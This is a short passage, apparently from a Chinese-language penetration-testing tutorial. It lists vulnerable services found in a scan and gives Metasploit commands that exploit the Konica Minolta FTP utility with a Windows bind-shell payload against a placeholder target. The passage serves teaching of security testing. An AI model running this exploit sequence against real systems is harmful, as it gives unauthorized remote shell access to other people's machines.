 Konica Minolta FTP 有漏洞：

![如何操作...](img/image_04_037.jpg)

Blue Coat 身份验证和授权代理（BCAAA）有漏洞：

![如何操作...](img/image_04_038.jpg)

Easy File Sharing HTTP Server 7.2 也有漏洞。让我们看看它们是否可以被利用。

1.  我们将首先测试 FTP。在 Metasploit 控制台中输入以下命令开始：

```
      use exploit/windows/ftp/kmftp_utility_cwd
      set rhost <Target IP address>
      set payload windows/shell_bind_tcp
      exploit

```

输出将如下截屏所示：
